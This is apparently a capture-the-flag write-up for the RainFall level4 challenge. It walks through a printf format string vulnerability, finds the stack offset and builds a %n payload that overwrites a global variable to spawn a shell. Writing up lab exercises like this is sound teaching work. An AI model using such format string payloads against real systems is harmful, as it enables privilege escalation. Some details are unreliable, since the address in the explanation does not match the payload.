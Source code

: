 # Level4

## Objective

The goal of Level 4 is to escalate from `level4` to `level5` by exploiting a format string vulnerability in the `level4` binary. By the end, you should be able to read the password for `level4`.

---

## Step 1: Examine the Binary

After switching to `level4`:

```bash
level4@RainFall:~$ ls
level4
```

Running the binary:

```bash
level4@RainFall:~$ ./level4
Hello
Hello
```

The program simply echoes back what we type, but suspiciously uses `printf()` directly with user input.

---

## Step 2: Investigate with `ltrace`

```bash
level4@RainFall:~$ ltrace ./level4
printf("\n"
)                                     = 1

```

We see that `printf()` is called **without a format string**, which means our input is treated as the format string itself.

---

## Step 3: Test with Format Specifiers

```bash
level4@RainFall:~$ ./level4
%p %p %p %p
0xbffff744 0xb7fd0ff4 0x80484b7 0x25207025
```

We can dump stack values using `%p`. This confirms a **format string vulnerability**.

I'm sure you want to understand whats the point here. The `%n` reads the input and write the number of bytes he read right after.
Yes, if we make him read a sequence of chosen numbers he will possibly over-write the number corresponding. (to an adress maybe ?)

---

## Step 4: Lets try to disass functions.

We found two functions, `p()` and `n()`.
* **`p()` uses printf,
* **`n()` reads our input,
      calls `p()`, 
      gives a value to m (a global variable empty so far) [0x8049810], 
      compare m with 0x1025544, 
      if m != jump to an exit, 
      else run `/bin/sh`

The goal here is clear give m the right value to pass the cmp and execute the syscall.

---

## Step 5: So what's the expected input?

We want to overwrite a global variable called `m` that controls access to the target function. The program wants m to be equal to `16930116` in decimal.

Therefore, our goal is to use `%n` to write the value `16930116` into the memory address of `m`.

---

## Step 6: Find the ofset

```bash
python -c 'print "aaaa" + "%x" * 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
The ofset is at the 12th position, meaning that the first arg given to printf appears at the 12th position.

We inject the address of `m` into the input, followed by a format string to write `16930116` bytes before using `%n`.
Also it needs to be written at the 12th position.

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit
```

Explanation:

* `\x8c\x98\x04\x08` → address of `m` in little-endian.
* `16930112d` → prints 16930112 decimals.
* `%12$n` → our `m` address.

---

## Step 7: Run Exploit

```bash
cat /tmp/exploit | ./level4
```

We successfully overwrite `m` and trigger the hidden shell.

---

> With this, you can `su level5` using the password.









